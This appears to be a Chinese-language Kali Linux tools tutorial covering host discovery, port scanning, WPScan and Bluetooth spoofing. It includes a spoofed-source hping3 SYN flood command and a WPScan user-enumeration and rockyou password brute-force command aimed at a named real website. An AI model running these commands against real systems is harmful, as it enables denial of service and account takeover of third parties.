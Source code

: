 ![kali工具目录](kali-tools.png "kali") 

# 01 -  信息收集
## 1.1存活主机识别
### 1.1.1 arping
好像没啥用，先空着。
### 1.1.2 fping

Fping类似于ping，但比ping强大。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。

目标IP地址的输入方式：
```
fping IP1 IP2 IP3 ...；

fping -f filename；

fping -g IP1 IP2（IP1地址开始范围，IP2地址结束范围）；
```
### 1.1.3 hping3

hping3的功能：

防火墙测试

端口扫描

Idle扫描

文件传输

木马功能

拒绝服务攻击DDOS


这里讲讲拒绝服务攻击DDOS:

我使用 testphp.vulnweb.com 这个网站来测试 :
```
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com
```
注意不要加上:  http:// or www.否则会报错。

    -c：发送数据包的个数
    -d：每个数据包的大小
    -S：发送SYN数据包
    -w：TCP window大小
    -p：目标端口，你可以指定任意端口
    –flood：尽可能快的发送数据包
    –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

### 1.1.4 masscan

扫描用，比如扫描端口：
```
Masscan 10.11.0.0/16 -p80
```

### 1.1.5 thcping6

主要用于ipv6

## 1.2 路由分析

### 1.2.1 netdiscover

专用的二层发现工具。拥有主动和被动发现两种方式。

```
netdiscover -r 192.168.28.129/24
```

# 3 - web程序
## 3.1 CMS识别
### WPScan

WPScan是一个扫描 WordPress 漏洞的黑盒子扫描器。

使用方法举例：
1. 先查找用户，下面这个语句会把用户都找出来。

```
wpscan --url https://www.igyaan.in  --enumerate u
```
2. 在根据用户去用字典破解。

```
wpscan --url https://www.igyaan.in --passwords '/usr/share/wordlists/rockyou.txt'  --username test
```
你可以看这个视频学（不过这个是旧版本的wpscan，视频里的关键字要改掉，比如wordlist要改为passwords，username改为usernames） 

[WPScan WordPress Vulnerability Scanner | Kali Linux Tutorial 2019](https://www.youtube.com/watch?v=eQVIg7zo_94&list=LLcrvfipWK74xk2aNBq4Aa7Q&index=2&t=688s)

# 06 - 无线攻击
## 06.1蓝牙工具集
### 6.1.1 spooftoop

Spooftooph是一个了不起的工具，旨在自动欺骗或克隆蓝牙信息（名称，类和地址）。

您可以看这个视频学
```
https://www.youtube.com/watch?v=JmQk4Yp9bww
```
1. 首先使用终端运行hciconfig指令看interface和开关情况：DOWN。
```
hciconfig
```

如果不懂可以使用man hciconfig查看说明。

2. 终端开启。
```
hciconfig hci0 up
```


